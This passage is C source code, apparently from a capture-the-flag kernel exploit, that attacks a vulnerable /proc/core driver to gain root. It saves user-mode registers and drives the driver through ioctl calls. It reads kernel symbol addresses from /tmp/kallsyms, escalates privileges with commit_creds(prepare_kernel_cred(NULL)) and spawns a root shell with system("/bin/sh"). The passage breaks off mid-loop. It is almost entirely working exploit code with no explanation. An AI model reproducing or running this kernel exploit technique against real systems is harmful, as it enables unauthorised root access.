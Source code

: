 ```c
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;");
    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}

void shell() {
    if (!getuid()) {
        system("/bin/sh");
    } else {
        puts("\033[31m\033[1m[-] Exploit failed.\033[0m");
        exit(0);
    }
}

void core_read(int fd, char* buf) {
    ioctl(fd, 0x6677889B, buf);
}

void core_set_offset(int fd, size_t offset) {
    ioctl(fd, 0x6677889C, offset);
}

void core_copy(int fd, size_t nbytes) {
    ioctl(fd, 0x6677889A, nbytes);
}

void getroot() {
    void * (*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
    int (*commit_creds_ptr)(void *) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}


int main() {
    FILE *syms;
    int fd;
    size_t offset;

    size_t addr;
    size_t canary;
    char type[256], name[256];

    size_t rop[0x100], i;

    puts("\033[34m\033[1m[*] Start to exploit...\033[0m");
    save_status();

    fd = open("/proc/core", O_RDWR);
    if (fd < 0) {
        puts("\033[31m\033[1m[-] Open /proc/core failed.\033[0m");
        exit(0);
    }

    syms = fopen("/tmp/kallsyms", "r");
    if (syms == NULL) {
        puts("\033[31m\033[1m[-] Open /tmp/kallsyms failed.\033[0m");
        exit(0);
    }

    while (fscanf(syms, "%lx %s %s", &addr, type, name)) {
```